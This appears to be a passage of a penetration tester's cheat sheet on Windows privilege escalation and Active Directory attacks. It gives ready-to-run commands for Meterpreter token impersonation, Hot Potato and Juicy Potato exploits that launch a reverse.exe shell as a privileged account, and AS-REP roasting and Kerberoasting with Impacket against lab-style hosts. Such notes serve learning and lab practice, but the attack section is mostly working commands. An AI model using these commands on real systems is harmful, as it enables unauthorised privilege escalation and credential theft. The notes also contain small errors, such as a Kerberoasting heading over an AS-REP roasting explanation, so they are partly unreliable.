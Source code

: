 On a meterpreter shell load incognito

```
load incognito
list_tokens -u
impersonate_token token\name
rev2self on meterpreter (reverts back to the initial permissions)
```

## Hot Potato

Needs hot potato.exe

```
.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_http server true -enable_defender true -enable_spoof true -enable_exhaust true
```

## Juicy Potato

Needs hot potato.exe

```
pwd of the reverse.exe
.\PSExec64.exe -accepteula -i -u "nt authority\local service" reverse.exe

To have a shell as the local service account

C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03... CLSID of the Windows version}
```

https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato

## Kerberoasting

ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. (Enumerate valid users with kerbrute)

```
GetNPUsers.py spookysec.local/ -usersfile userlist.txt

GetNPUsers.py spookysec.local/svc-admin -no-pass
```

Once we have user credentials we can retrieve services with administrator accounts (SPN)

Using the GetUserSPNS.py (impacket)

```
GetUserSPNS.py domain.local/user:password -dc-ip 192.168.57.140 -request
GetUserSPNS.py -request -dc-ip IP TARGET(domain/user)

impacket-GetUsersSPNs -dc-ip IP DOMAIN/User
Enter the password
```
